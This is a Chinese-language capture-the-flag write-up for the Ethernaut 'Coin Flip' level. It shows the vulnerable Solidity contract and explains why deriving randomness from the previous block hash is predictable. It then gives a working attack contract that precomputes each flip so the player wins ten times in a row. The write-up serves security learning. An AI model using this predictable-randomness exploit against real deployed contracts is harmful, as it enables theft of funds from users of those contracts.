 ## Level_3.Coin Flip

要求：

> 是一个抛硬币游戏，需要连续猜对10次；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    // 抛硬币函数
    function flip(bool _guess) public returns (bool) {
        // 获取上一个区块的哈希
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }
        // 赋值到lastHash
        lastHash = blockValue;
        // 用上一个块的哈希除以一个值来实现随机效果
        uint256 coinFlip = blockValue / FACTOR;
        // 判断当前回合结果
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

### 分析

该合约实现了一个通过区块哈希来实现随机效果的抛硬币游戏，但仔细想一下并不是真正的随机；

由于以太坊区块生成速度不是特别快，当我们查到上一个区块的哈希值时的同时进行猜硬币，两个动作查询的上一个区块哈希值大概率是同一个；

所以只需要写一个脚本攻击即可，速度也不能太快，不然可能交易失败；

### 攻击

攻击合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Ethernaut.sol";

contract Exp {
    // 抛硬币合约对象
    CoinFlip public coinfilp;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    // 设置抛硬币合约
    function setContract(address addr) public {
        coinfilp = CoinFlip(addr);
    }

    // 攻击合约
    function Attack() public returns (bool){
        // 获取上一个区块的值
        uint256 lastblockValue = uint256(blockhash(block.number - 1));
        // 计算硬币结果
        uint256 flip = lastblockValue / FACTOR;
        bool res;
        if (flip == 1){
            res = true;
        } else {
            res = false;
        }
        // 调用抛硬币合约执行
        return coinfilp.flip(res);
    }
}
```

设置合约地址：

![image-20250101130854812](./assets/image-20250101130854812.png)

连续攻击10次：

![image-20250101132034605](./assets/image-20250101132034605.png)

最后一次攻击的区块查询：

![image-20250101133206837](./assets/image-20250101133206837.png)

查看结果：

![image-20250101131955551](./assets/image-20250101131955551.png)

